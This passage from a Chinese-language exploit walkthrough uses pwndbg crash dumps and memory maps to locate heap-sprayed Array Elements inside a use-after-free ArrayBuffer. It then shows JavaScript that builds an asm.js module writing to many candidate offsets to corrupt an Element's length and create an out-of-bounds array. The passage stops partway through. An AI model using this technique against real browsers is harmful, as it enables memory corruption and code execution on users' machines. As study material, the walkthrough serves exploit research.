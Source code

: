 使用gdb调试，然后断在崩溃处

```
EAX  0x6666666a ('jfff')
 EBX  0x80108
 ECX  0xc80000
 EDX  0xf4cb4000
 EDI  0x5403aff1 —▸ 0x4e536848 ◂— 0x9999999a
 ESI  0x5858aab0 ◂— 0xf4cb4000
 EBP  0xffcd9da8 —▸ 0xffcd9df8 —▸ 0xffcd9e10 —▸ 0xffcd9e38 —▸ 0xffcd9ee8 ◂— ...
 ESP  0xffcd9d9c —▸ 0x52786292 ◂— mov    eax, 0x27184185 /* 0x184185b8 */
 EIP  0x527864ee ◂— mov    dword ptr [edx + ebx], eax /* 0xbb1a0489 */
───────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────
 ► 0x527864ee    mov    dword ptr [edx + ebx], eax
```

当前访问的地址是`0xf4cb4000`，查看其附近的内存

```
.................
0xf4024000 0xf4cb4000 rw-p   c90000 0      
0xf4d80000 0xf4e05000 rw-p    85000 0      
0xf4e80000 0xf4f05000 rw-p    85000 0      
...............
```

可以看到`0xf4cb4000`上方和下方很多`0x85000`大小的内存空间，这是正是堆喷到此处的一些`Array`对象以及`Elements`对象，我们在gdb中使用`find`命令查找紧挨着的一块内存里的关键字

```
find /w4 0xf4d80000,0xf4e05000,0x9999999a
```

结果如下，我们看到最近的一个数据位于`0xf4d84108`，可以看到该处正是某一个`Array`对象的`Element`，它与`backing_store`之间相差`0xd0108`，这个偏移并不是固定不变的，但是后12bit是固定不变的。

```
0xf4d84108
0xf4d84110
0xf4d84118
0xf4d84120
pwndbg&gt; x /20wx 0xf4d84108-0x8
0xf4d84100:    0x536846f1    0x00020000    0x9999999a    0x40019999
```

我们可以将所有的可能偏移都罗列出来，由于这些偏移在之前那个`ArrayBuffer`的length范围之内，也就是说该对象存在于那个UAF的空间里，于是我们可以利用UAF来改写`Element`，我们可以修改`Element`的`length`属性，这样，我们可以后续构造出一个`oob`数组，为了区别，我们还需要修改`Element`的第一个元素，这样方便我们找到到底是哪个`Array`的`Element`堆喷于此处。<br>
为了方便罗列这些可能的偏移，并进行写，我们使用JS的模板来生成多种可能的偏移写语句，方便操作

```
//距离不是固定的，因此需要将所有可能的距离都赋值,我们要修改Element的length和第一个元素
let loop = "";
for(let i = 0; i &lt; 0xd0; i++) `{`
    loop += `fl[$`{`0x21041 + 0x100 * i`}`] = x;fl[$`{`0x21042 + 0x100 * i`}`] = x;`;
`}`

let eval_str = `
function module(stdlib, foreign, buffer) `{`
    "use asm";
    var fl = new stdlib.Uint32Array(buffer);
    function foo(x) `{`
        x = x | 0;
        $`{`loop`}`
    `}`
    return foo;
`}`
`
```